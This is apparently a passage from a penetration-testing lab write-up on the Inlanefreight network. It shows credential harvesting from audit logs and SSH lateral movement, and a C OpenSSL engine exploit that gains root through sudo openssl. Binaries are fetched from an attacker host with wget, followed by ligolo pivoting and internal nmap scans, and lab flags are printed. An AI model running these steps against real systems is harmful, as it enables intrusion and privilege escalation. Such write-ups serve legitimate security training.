

The same payload is used to read the flag:



**Flag:**

```
HTB{49f0bad299687c62334182178bfd75d8}
```

---

## vpn.inlanefreight.local


A login form is presented. No bypass or successful brute force was achieved against this vhost.

---

## DMZ01 Lateral movement from webdev to srvadm


```bash
webdev@dmz01:/home/webdev$ id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
webdev@dmz01:/home/webdev$ ls /home
lab_adm  pixel  srvadm  tom  webdev
```

```bash
webdev@dmz01:/home/webdev$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lab_adm:x:1000:1000:lab_adm:/home/lab_adm:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
pixel:x:1001:1001::/home/pixel:/bin/sh
tom:x:1002:1002::/home/tom:/bin/sh
srvadm:x:1003:1003::/home/srvadm:/bin/sh
ftp:x:114:120:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:115:121::/var/cache/bind:/usr/sbin/nologin
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
postfix:x:118:124::/var/spool/postfix:/usr/sbin/nologin
webdev:x:1004:1004::/home/webdev:/bin/sh
_rpc:x:119:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:120:65534::/var/lib/nfs:/usr/sbin/nologin
webdev@dmz01:/home/webdev$ 

```

```
webdev@dmz01:/home/webdev$ aureport --tty | less
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
8. 06/01/22 07:13:36 365 1004 ? 4 sh "exit",<nl>
9. 06/01/22 07:13:50 371 0 ? 2 bash "clear",<ret>,"aureport --ty",<ret>,"clear",
<ret>,<up>,<up>,<left>,<left>,"t",<ret>,<up>,<ret>,<up>,<ret>,<up>,<ret>,"clear"
,<ret>,<down>,<down>,<up>,<up>,<ret>
10. 06/01/22 10:25:00 341 0 ? 2 docker "ls",<ret>,"cd /var/www/html",<ret>,"ls",
<ret>,"ls -la",<ret>,"apt i",<backspace>,"update &7 apt inst",<backspace>,<backs
pace>,<backspace>,<backspace>,<backspace>,<backspace>,<backspace>,<backspace>,<b
ackspace>,<backspace>,"& apt install nano",<ret>,"nano in",<tab>,<ret>,<down>,<d
own>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down
>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<
down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<down>,<dow
:

```

ssh access as srvadm:

```
ssh srvadm@inlanefreight.local             
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
srvadm@inlanefreight.local's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 10 Nov 2026 08:25:43 PM UTC

  System load:                      0.07
  Usage of /:                       93.7% of 13.72GB
  Memory usage:                     64%
  Swap usage:                       0%
  Processes:                        438
  Users logged in:                  0
  IPv4 address for br-65c448355ed2: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.229.147
  IPv6 address for ens160:          dead:beef::250:56ff:fe8a:405f
  IPv4 address for ens192:          172.16.8.120

  => / is using 93.7% of 13.72GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

82 updates can be applied immediately.
16 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ id
uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ sudo -l
Matching Defaults entries for srvadm on dmz01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
    (ALL) NOPASSWD: /usr/bin/openssl
$ 

```

## Privesc on DMZ01

https://medium.com/@shehacks_/from-sudo-openssl-to-root-privilege-escalation-with-dynamic-engine-abuse-c7e9e86ef41a

```c
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 1;
}
IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

```bash
gcc -fPIC -c exploit.c 
gcc -shared -o exploit.so exploit.o -lcrypto
```

```
$ wget http://10.10.15.11:8081/exploit.so
--2026-11-10 20:38:40--  http://10.10.15.11:8081/exploit.so
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15712 (15K) [application/octet-stream]
Saving to: ‘exploit.so’

exploit.so                  100%[===========================================>]  15.34K  --.-KB/s    in 0.04s   

2026-11-10 20:38:40 (393 KB/s) - ‘exploit.so’ saved [15712/15712]

$ chmod +x exploit.so
$ sudo openssl req -engine ./exploit.so
root@dmz01:/home/srvadm# id
uid=0(root) gid=0(root) groups=0(root)
root@dmz01:/home/srvadm# 

```

## Root flag

```
root@dmz01:~# ls
flag.txt  snap
root@dmz01:~# cat flag.txt
a34985b5976072c3c148abc751671302
root@dmz01:~# 

```

---

## Pivoting with ligolo

Lots of interfaces, but the area of interest is the one scoped, so 172.16.8.0/23

```
root@dmz01:~# ifconfig
br-65c448355ed2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:5fff:fe83:fef5  prefixlen 64  scopeid 0x20<link>
        ether 02:42:5f:83:fe:f5  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 1076 (1.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:b3ff:fe78:d49b  prefixlen 64  scopeid 0x20<link>
        ether 02:42:b3:78:d4:9b  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 384 (384.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.147  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe8a:405f  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe8a:405f  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:8a:40:5f  txqueuelen 1000  (Ethernet)
        RX packets 17032  bytes 1392847 (1.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3301  bytes 2439029 (2.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.0.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:fe8a:e58f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:e5:8f  txqueuelen 1000  (Ethernet)
        RX packets 1205  bytes 81229 (81.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 54  bytes 4656 (4.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4114  bytes 322406 (322.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4114  bytes 322406 (322.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6866044: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::ecf2:63ff:fe42:5dfa  prefixlen 64  scopeid 0x20<link>
        ether ee:f2:63:42:5d:fa  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth12a21e7: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::bc9e:8cff:fe33:b3b5  prefixlen 64  scopeid 0x20<link>
        ether be:9e:8c:33:b3:b5  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth2dc940b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::44b3:e8ff:feb6:75cb  prefixlen 64  scopeid 0x20<link>
        ether 46:b3:e8:b6:75:cb  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17  bytes 1366 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth3a8bb86: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::88a2:3eff:fee8:6eea  prefixlen 64  scopeid 0x20<link>
        ether 8a:a2:3e:e8:6e:ea  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth607e66c: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::81b:59ff:fe91:83e6  prefixlen 64  scopeid 0x20<link>
        ether 0a:1b:59:91:83:e6  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth6fb53c7: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c455:63ff:febc:94e1  prefixlen 64  scopeid 0x20<link>
        ether c6:55:63:bc:94:e1  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth9475f2b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c0c3:61ff:fe04:9d31  prefixlen 64  scopeid 0x20<link>
        ether c2:c3:61:04:9d:31  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17  bytes 1366 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth95a7dfd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::c4f0:c4ff:feb0:8843  prefixlen 64  scopeid 0x20<link>
        ether c6:f0:c4:b0:88:43  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethcd2e29c: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::b0d0:68ff:fe7e:e7bf  prefixlen 64  scopeid 0x20<link>
        ether b2:d0:68:7e:e7:bf  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 1256 (1.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethd5cf06d: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::58d9:3ff:fedc:f412  prefixlen 64  scopeid 0x20<link>
        ether 5a:d9:03:dc:f4:12  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethe76e832: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::10b9:d2ff:feb0:3eac  prefixlen 64  scopeid 0x20<link>
        ether 12:b9:d2:b0:3e:ac  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethf441d90: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::50eb:cbff:fe78:dc3a  prefixlen 64  scopeid 0x20<link>
        ether 52:eb:cb:78:dc:3a  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@dmz01:~# 

```

```
root@dmz01:~# for i in {1..254} ;do (ping -c 1 172.16.8.$i | grep "bytes from" &) ;done
64 bytes from 172.16.8.3: icmp_seq=1 ttl=128 time=1.83 ms
64 bytes from 172.16.8.20: icmp_seq=1 ttl=128 time=0.828 ms
64 bytes from 172.16.8.50: icmp_seq=1 ttl=128 time=0.749 ms
64 bytes from 172.16.8.120: icmp_seq=1 ttl=64 time=0.019 ms

```

>Kali

```bash
sudo ip tuntap add user root mode tun tunnel1
sudo ip link set tunnel1 up
```

```bash
sudo ligolo-proxy -selfcert                               
```

>DMZ01

```bash
root@dmz01:~# wget http://10.10.15.11:8081/agent
--2026-11-10 20:51:48--  http://10.10.15.11:8081/agent
Connecting to 10.10.15.11:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7164088 (6.8M) [application/octet-stream]
Saving to: ‘agent’

agent                       100%[===========================================>]   6.83M  1.03MB/s    in 5.5s    

2026-11-10 20:51:53 (1.24 MB/s) - ‘agent’ saved [7164088/7164088]

root@dmz01:~# chmod +x agent
root@dmz01:~# ./^Cgolo-agent -connect 10.10.15.11:11601 -ignore-cert
root@dmz01:~# ./agent -connect 10.10.15.11:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.15.11:11601"


```

```
ligolo-ng » INFO[0342] Agent joined.                                 id=0050568a405f name=root@dmz01 remote="10.129.229.147:53920"
ligolo-ng » session
? Specify a session : 1 - root@dmz01 - 10.129.229.147:53920 - 0050568a405f
[Agent : root@dmz01] »  

```

```
[Agent : root@dmz01] » autoroute
? Select routes to add: 172.16.8.120/16
? Create a new interface or use an existing one? Create a new interface
? Enter interface name (leave empty for random name): tunnel
INFO[0383] Using custom interface name: tunnel          
INFO[0383] Interface tunnel configured (will be created on tunnel start) 
INFO[0383] Creating routes for tunnel...                
? Start the tunnel? Yes
INFO[0387] Starting tunnel to root@dmz01 (0050568a405f) 
[Agent : root@dmz01] » session
? Specify a session : 1 - root@dmz01 - 10.129.229.147:55100 - 0050568a405f
[Agent : root@dmz01] » tunnel_list
┌───────────────────────────────────────────────────────────────────────────┐
│ Active sessions and tunnels                                               │
├───┬──────────────────────────────────────────────────┬───────────┬────────┤
│ # │ AGENT                                            │ INTERFACE │ STATUS │
├───┼──────────────────────────────────────────────────┼───────────┼────────┤
│ 1 │ root@dmz01 - 10.129.229.147:55100 - 0050568a405f │ tunnel    │ Online │
└───┴──────────────────────────────────────────────────┴───────────┴────────┘
```

```
sudo ip route add 172.16.8.0/23 dev tunnel
```

```
 netexec smb 172.16.8.0/23                 
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
SMB         172.16.8.50     445    ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
Running nxc against 512 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

```
nmap -sC -sV 172.16.8.3 --open                                                                     
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-13 15:57 -0500
Nmap scan report for DC01 (172.16.8.3)
Host is up (0.092s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-13 20:57:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:bc:3a (VMware)
| smb2-time: 
|   date: 2026-11-13T20:57:57
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.49 seconds

                                                              
```

```
sudo nmap -sT -Pn 172.16.8.20 -sV -sC
[sudo] password for kali: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:32 -0500
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 87.50% done; ETC: 17:33 (0:00:04 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.91% done; ETC: 17:33 (0:00:00 remaining)
Nmap scan report for 172.16.8.20
Host is up (0.036s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-robots.txt: 16 disallowed entries (15 shown)
| /*/ctl/ /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/Documentation/ /HttpModules/ /Install/ /Providers/
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Home
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL
| Not valid before: 2026-11-09T19:42:03
|_Not valid after:  2027-05-11T19:42:03
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: ACADEMY-AEN-DEV
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
|   DNS_Computer_Name: ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL
|   DNS_Tree_Name: INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-10T23:33:24+00:00
|_ssl-date: 2026-11-10T23:33:29+00:00; +1h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 0s, median: 59m59s
|_nbstat: NetBIOS name: ACADEMY-AEN-DEV, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:12:09 (VMware)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-10T23:33:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.25 seconds


```

```
 sudo nmap -sT -Pn 172.16.8.50 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:03 -0500
Nmap scan report for 172.16.8.50
Host is up (0.043s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: ACADEMY-AEN-MS0
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
|   DNS_Computer_Name: ACADEMY-AEN-MS01.INLANEFREIGHT.LOCAL
|   DNS_Tree_Name: INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-10T23:03:27+00:00
|_ssl-date: 2026-11-10T23:03:32+00:00; +1h00m00s from scanner time.
| ssl-cert: Subject: commonName=ACADEMY-AEN-MS01.INLANEFREIGHT.LOCAL
| Not valid before: 2026-11-09T19:42:07
|_Not valid after:  2027-05-11T19:42:07
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
